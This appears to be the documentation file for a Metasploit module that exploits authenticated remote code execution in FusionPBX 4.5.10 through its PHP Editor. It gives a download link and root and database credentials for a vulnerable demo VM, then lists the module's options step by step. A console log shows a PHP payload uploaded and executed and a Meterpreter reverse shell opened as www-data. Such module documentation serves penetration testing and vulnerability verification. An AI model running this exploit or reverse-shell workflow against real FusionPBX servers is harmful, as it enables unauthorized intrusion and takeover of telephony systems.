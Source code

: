 ## Vulnerable Application
FusionPBX 4.5.10 is vulnerable to authenticated remote code execution through their PHP Editor function. Users can rewrite any PHP on site to gain access as www-data.

### Creating A Testing Environment
The vendor has patched this issue. I have kept a copy of the version for demo purposes:
https://mega.nz/#!yiRigCAI!9Qt2g3wrQy3oLHAjf8uN2sz6dWkuhd4QV-G8G1FGv4k

Download the OVF from the link provided and import OVF.

```
Username: root
Password: fusion

Database Password: bckfRgOxcFitVIsPRKVlmuvjfU

1. login as root on machine
2. cd /etc/fusionpbx
3. mv config.php config1.php
4. on web browser, visit https://ip/
5. set new admin password on the web ui prompt
6. on the next page insert database password into the database configuration 
7. submit and exploit
```

## Verification
1. use exploit/linux/http/fusionpbx_php_editor_cmd_exec
2. set RHOST target_ip
3. set RPORT 443
4. set SSL true
5. set USERNAME login_username
6. set PASSWORD login_password
7. exploit

## Scenarios
### FusionPBX 4.5.10
```
msf5 > use exploit/linux/http/fusionpbx_php_editor_cmd_exec
msf5 exploit(linux/http/fusionpbx_php_editor_cmd_exec) > set RHOST 192.168.0.48
msf5 exploit(linux/http/fusionpbx_php_editor_cmd_exec) > set RPORT 443
msf5 exploit(linux/http/fusionpbx_php_editor_cmd_exec) > set SSL true
msf5 exploit(linux/http/fusionpbx_php_editor_cmd_exec) > set USERNAME admin
msf5 exploit(linux/http/fusionpbx_php_editor_cmd_exec) > set PASSWORD fusion
msf5 exploit(linux/http/fusionpbx_php_editor_cmd_exec) > exploit
msf5 exploit(linux/http/fusionpbx_php_editor_cmd_exec) > run
[*] Started reverse TCP handler on 192.168.0.12:4444 
[+] Login Successful!
[*] 192.168.0.48:443 - Sending PHP payload (/var/www/fusionpbx/project_root.php)
[+] Uploaded Successfully!
[*] 192.168.0.48:443 - Executing project_root.php...
[*] Sending stage (38288 bytes) to 192.168.0.48
[*] Meterpreter session 2 opened (192.168.0.12:4444 -> 192.168.0.48:51374) at 2020-01-20 07:22:05 +0000
meterpreter > getuid
Server username: www-data (33)
meterpreter > 
```

